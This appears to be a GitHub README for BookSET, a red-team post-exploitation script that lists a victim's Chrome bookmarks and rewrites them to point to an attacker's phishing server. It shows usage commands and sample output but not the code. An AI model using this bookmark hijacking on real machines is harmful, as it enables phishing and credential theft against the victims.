 # BookSET
A simple script for Post-Exploitation - Red Team

This script was generated to modify all URLs in BookMarks from Google Chrome, this script can be use for capture some credentials with Phishing sites or just redirect the victim to your EvilServer.


# 🔴: How it works!

## [+] Recon Mode 
If we want to know what BookMarks the target has, then we just need to execute the following commandline:
```bash
python bookSET.py -recon

```

and the output should be something like this:

```bash

 /$$                           /$$        /$$$$$$  /$$$$$$$$ /$$$$$$$$
| $$                          | $$       /$$__  $$| $$_____/|__  $$__/
| $$$$$$$   /$$$$$$   /$$$$$$ | $$   /$$| $$  \__/| $$         | $$   
| $$__  $$ /$$__  $$ /$$__  $$| $$  /$$/|  $$$$$$ | $$$$$      | $$   
| $$  \ $$| $$  \ $$| $$  \ $$| $$$$$$/  \____  $$| $$__/      | $$   
| $$  | $$| $$  | $$| $$  | $$| $$_  $$  /$$  \ $$| $$         | $$   
| $$$$$$$/|  $$$$$$/|  $$$$$$/| $$ \  $$|  $$$$$$/| $$$$$$$$   | $$   
|_______/  \______/  \______/ |__/  \__/ \______/ |________/   |__/   
                                                                      
 
[+] Getting Urls from BookMarks
 
 - https://www.facebook.com
 - https://www.bank.com
 - https://www.twitter.com
 - https://www.instagram.com
 - https://intranet.companie.org

[+] Total of BookMarks identified : 5

```

## [+] Replace Mode

Now that we know all the BookMark that the target has, we can check all the urls and just make a "fake website" ;) :

```bash
python bookSET.py -replace

```

and the output should be something like this:

```bash

 /$$                           /$$        /$$$$$$  /$$$$$$$$ /$$$$$$$$
| $$                          | $$       /$$__  $$| $$_____/|__  $$__/
| $$$$$$$   /$$$$$$   /$$$$$$ | $$   /$$| $$  \__/| $$         | $$   
| $$__  $$ /$$__  $$ /$$__  $$| $$  /$$/|  $$$$$$ | $$$$$      | $$   
| $$  \ $$| $$  \ $$| $$  \ $$| $$$$$$/  \____  $$| $$__/      | $$   
| $$  | $$| $$  | $$| $$  | $$| $$_  $$  /$$  \ $$| $$         | $$   
| $$$$$$$/|  $$$$$$/|  $$$$$$/| $$ \  $$|  $$$$$$/| $$$$$$$$   | $$   
|_______/  \______/  \______/ |__/  \__/ \______/ |________/   |__/   
                                                                      
 
[+] Replacing the Urls from BookMarks...

[+] Done!

[+] Total of BookMarks replaced : 5

```



